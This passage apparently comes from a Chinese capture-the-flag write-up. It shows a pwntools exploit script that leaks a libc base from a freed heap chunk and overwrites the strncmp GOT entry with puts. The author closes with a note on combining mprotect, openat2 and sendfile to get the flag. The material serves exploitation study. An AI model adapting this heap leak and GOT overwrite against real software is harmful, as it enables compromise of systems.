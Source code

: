 ### exp

```Python
add(0x500)
add(0x500)
delete(1)
show(1)
p.recvuntil(b'The content is here \n')
libc_base = u64(p.recv(6).ljust(8,b'\x00')) - 0x219ce0
log.success('libc_base==>'+hex(libc_base))
strncmp_got = libc_base + 0x219000 + 8*0x23
log.success('strncmp_got==>'+hex(strncmp_got))
puts = libc_base + libc.sym['puts']
log.success('puts==>'+hex(puts))

cmd(6)
p.sendafter(b'Input your target addr \n',p64(strncmp_got))
pause()
p.send(p64(puts))

cmd(5)
# gdb.attach(p)
p.sendlineafter(b'Maybe you will be sad !\n',b'2')

p.interactive()
```

总结
==

这道题可以为以后的堆利用提供新的思路，当有strlen且能够修改GOT\[0\],GOT\[1\]的时候，可以尝试结合`mprotect,openat2,sendfile`来获得flag而不是传统的`setcontext`。但是这种条件过于苛刻，基本上很难再有利用的机会了